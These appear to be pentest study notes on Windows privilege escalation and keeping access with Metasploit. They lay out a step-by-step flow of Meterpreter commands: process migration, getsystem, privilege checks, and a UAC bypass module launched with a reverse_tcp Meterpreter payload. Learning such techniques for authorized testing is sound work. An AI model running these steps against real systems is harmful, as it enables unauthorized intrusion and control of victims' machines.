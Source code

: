# Privilege Escalation and Maintaining Access

* Types of privilege escalation
  - Vertical
    - The attacker is able to move from a lower privileged user to a higher privileged user. For example from a low-end user to administrator or root user.
  - Horizontal: 
    - The attacker keeps the same set or level of privileges but assumes the identity of a different user (he/she does not gain any further privilege).


---

### Maintaining Access

In this phase we will make sure that our session is :

+ Stable (does not get dropped)
  - One of the main issues when you get a meterpreter session on the target, is that the end user can kill the exploited process. It can happen, for example, when you exploit a client-side vulnerability through the web browser and the user just closes the web browser window.
+ Privileged (can run with high privileges)
+ Persistent (through reboots)




---

* Stable

Our goal of making our session stable. To let Metasploit automatically migrate to another process, you can use the following command (on windows machine):

> run post/windows/manage/migrate

---

* Windows Privilege Escalation

The easiest and fastest way to get higher privileges is by running getsystem within meterpreter.It will automatically find the best technique to elevate privileges.

![image](https://user-images.githubusercontent.com/73122852/234651603-834739f8-11fb-4bd1-a4ed-9baf2b8ada39.png)


Notice that depending on the current privileges on the machine, the getsystem command may fail. For example, if you use this technique on systems with User Account Control (UAC) enabled (Windows Vista+), it will not work as well as systems like Windows XP.

When UAC is enabled on the remote system, bypassuac is one of the modules we can use to bypass it.

First of all, we can verify if UAC is enabled by running the module post/windows/gather/win_privs.

If in the result the UAC Enabled column is set to true, it means that the remote system has the UAC enabled.


* Bypass UAC Protection

> use exploit/windows/local/bypassuac_injection


---

* Flow

1- After meterpreter get some system information

> sysinfo

![image](https://user-images.githubusercontent.com/73122852/235372168-53582c37-8b80-4240-afeb-af413c34b472.png)

2-Then run the easiest way to get higher privileges in windows

> getsystem

![image](https://user-images.githubusercontent.com/73122852/235372353-c5c5950e-3bf4-45ff-954e-72c20af83bde.png)

it seems to not be working that maybe because the "User Account Control" Feature is enabled on the remote system

3- list the current session privileges

> getprivs

![image](https://user-images.githubusercontent.com/73122852/235372489-f2962ea2-3ee2-4435-b790-b7833e6a3814.png)

Although it returns some privileges , these are not enough to elevate our session.
Moreover, to get a better view of the current session , run post exploitation

> run post/windows/gather/win_privs

![image](https://user-images.githubusercontent.com/73122852/235372928-7a7e4004-b09b-4182-b259-1133244d7f7f.png)

As you see The "UAC" is enabled, metasploit provides some modules to bypass the UAC protection

> use exploit/windows/local/bypassuac_injection

Then set the session , set the target (windows (x86 or x64)) , set payload (windows/x64/meterpreter/reverse_tcp) and exploit

Now if you run getprivs , you can see many more privileges.




















